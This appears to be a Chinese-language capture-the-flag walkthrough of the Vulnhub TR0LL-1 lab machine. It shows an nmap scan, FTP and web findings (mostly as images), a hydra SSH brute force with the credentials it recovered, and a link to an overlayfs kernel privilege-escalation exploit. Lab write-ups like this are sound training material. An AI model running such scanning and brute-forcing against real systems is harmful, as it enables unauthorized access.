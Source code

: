 ```yaml
---
title: Vulnhub 100 TR0LL-1
date: 2014-8-14
---
```


考点： ftp,hydra

靶机链接：<https://www.vulnhub.com/entry/tr0ll-1,100/>
<!--more-->

## 环境配置

| 名称         | IP        |
| ------------ | --------- |
| Kali Linux   | 192.168.88.135 |
| TR0LL: 1 | 192.168.88.149 |

## 初步打点

### 端口扫描

```bash
$ export rip=192.168.88.149
$ sudo nmap -v -A -p- $rip
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 09  2014 lol.pcap [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.88.135
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 600
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d618d9ef75d31c29be14b52b1854a9c0 (DSA)
|   2048 ee8c64874439538c24fe9d39a9adeadb (RSA)
|   256 0e66e650cf563b9c678b5f56caae6bf4 (ECDSA)
|_  256 b28be2465ceffddc72f7107e045f2585 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/secret
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.7 (Ubuntu)
```

### FTP

![](https://www.vulnhub.cn/walkthrough/100/1.webp)

![](https://www.vulnhub.cn/walkthrough/100/2.webp)

## WEB测试

```bash
Well, well, well, aren't you just a clever little devil, you almost found the sup3rs3cr3tdirlol :-P\n
```



![](https://www.vulnhub.cn/walkthrough/100/3.webp)

![](https://www.vulnhub.cn/walkthrough/100/4.webp)

![](https://www.vulnhub.cn/walkthrough/100/5.webp)

![](https://www.vulnhub.cn/walkthrough/100/6.webp)

![](https://www.vulnhub.cn/walkthrough/100/7.webp)

一个用户名字典

![](https://www.vulnhub.cn/walkthrough/100/8.webp)

一个密码字典

![](https://www.vulnhub.cn/walkthrough/100/9.webp)

## 获得权限

### Hydra

```bash
$ hydra -L which_one_lol.txt -P Pass.txt 192.168.88.149 ssh
[DATA] attacking ssh://192.168.88.149:22/
[22][ssh] host: 192.168.88.149   login: overflow   password: Pass.txt
```



![](https://www.vulnhub.cn/walkthrough/100/10.webp)

## 提权

参考 [Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation](https://www.exploit-db.com/exploits/37292)

![](https://www.vulnhub.cn/walkthrough/100/11.webp)
